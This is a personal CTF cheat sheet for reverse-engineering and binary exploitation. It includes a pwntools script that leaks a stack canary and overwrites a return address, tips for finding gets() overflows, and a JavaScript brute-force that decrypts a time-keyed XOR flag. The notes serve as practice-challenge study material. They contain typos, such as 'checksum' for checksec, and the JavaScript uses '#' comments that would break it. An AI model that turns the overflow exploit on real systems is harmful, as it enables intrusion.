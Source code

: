 # REV-PWNS
my personal guide for rev-pwns

------------------------------------------------------------------------------------------------------------------------
when you have a challenge with NO PIE and a canary
1. checksum --file=/home/kali/<thefile>
2. here its the solution.py :

from pwn import *
context.log_level = "DEBUG"
context.arch = "amd64"
context.os = "linux"

remote_ip = 'localhost'
remote_port = 1337
buffer_len = 8 * 11
addr_your_goal = 0x401339 # it depends.

r = remote(remote_ip, remote_port)
r.recv() # Receive question for name;
r.sendline(b"A" * buffer_len)
r.recv() # Receive the first response;
x = r.recv() # Receive canary;

canary = x[x.rfind(b'A')+1:x.rfind(b'A')+9] # Canary leak

exploit = b"A" * buffer_len + b"\x00" + canary[1:] + 8 * b"\x00" + p64(addr_your_goal) # Overwrite buffer followed by canary, rbp and return address which is not position independent;
r.send(exploit) # Sending payload;
x = r.recv() # Receive flag from your_goal function;
flag = x[:x.find(b'}')]
print(flag)



------------------------------------------------------------------------------------------------------------------------
when you have a "file" type and an IP:port -->
1. nc IP port (so you can try the program)         or use this for a more interactive shell: rlwrap nc <host> <port>
2. checksum --file=/home/kali/<thefile>  (to see if there is a canary)
3. now load the file to ghidra  (or objdump -t <filename>) 
4. There we go to the main functio non "Listing" window and go to the main and then open a "window" --> "Decompile: ...."
   so we can check the main function. Then go to other functions too.
!!!------- if you find "gets()" for input, without boundary checking, that means that you can buffer overflow it (EIP (Extended Instruction Pointer)---------!!!
5. go check the input, try 100 A's and then 200 A's...and you may find if there is a baffer overflow.
                            simple input tries-->
6. python3 -c "print(b'A'*200)" | ./<filename>
7. 

-------------------------------------------------------------------------------------------------------------------------
when you have a "file" without an IP:port-->
1. checksum
2. strings
3. ghidra or ida free  (cd opt/inda-free/ and then ./ida)
4. hecdump <filename>.enc


-----------------------------------------------------------------------------------------------------------------------
if you get a file with ARM code (Advanced RISC Machine, used for mobiles,servers,Raspberry Pi etc)
1. nc ip port
2. you need a code to solve the inputs of it:
   https://github.com/itwaseasy/crackmes-solutions/blob/master/hackTheBox/arms_race/emulator.py
   This script is a remote challenge solver using ARM code emulation. It connects to a remote service, receives ARM machine    
   code, emulates its execution, and returns the result (the value in register R0)

--------------------------------------------------------------------------------------------------------------------------
you just can a flag/text with scrambled chars. It encrypts them based on the time/date and month at that moment. So:

import MD5 from 'crypto-js/md5.js';
let daysBack = 0;

#use this flag from where you got it
const flag = [0x45, 0x00, 0x50, 0x39, 0x08, 0x6f, 0x4d, 0x5b, 0x58, 0x06, 0x66, 0x40, 0x58, 0x4c, 0x6d,0x5d, 0x16, 0x6e, 0x4f, 0x00, 0x43, 0x6b, 0x47, 0x0a,0x44, 0x5a, 0x5b, 0x5f, 0x51, 0x66, 0x50, 0x57]
const ctfDay = new Date("2025-04-11");

#use this to clear the unwanted chars
const canBeFlag = (flag) => [...flag].every(x => x.charCodeAt(0) >= 48 && x.charCodeAt(0) <= 125)


#try for the previus 100 days
while (daysBack < 100) {
    for(let minute = 0; minute < 24 * 60; minute++) {
        const dateTime = new Date(ctfDay.getTime() - daysBack * 24 * 60 * 60 * 1000 + minute * 60 * 1000);
        const date = `${(dateTime.getMonth() + 1).toString().padStart(2, '0')}/${dateTime.getDate().toString().padStart(2, '0')}/${dateTime.getFullYear()}`
        const time = `${dateTime.getHours().toString().padStart(2, '0')}:${dateTime.getMinutes().toString().padStart(2, '0')}`
        const base = "Europe/Warsaw-" + date + "-" + time;
         # i used europe/warsaw cayse that was the place the flag used for first time
   
        var hash = MD5(base).toString();
        const result = flag.map((x, i) => String.fromCharCode(x ^ hash.charCodeAt(i))).join('')
        if(canBeFlag(result))
            console.log(result);
    }

    daysBack++;
}
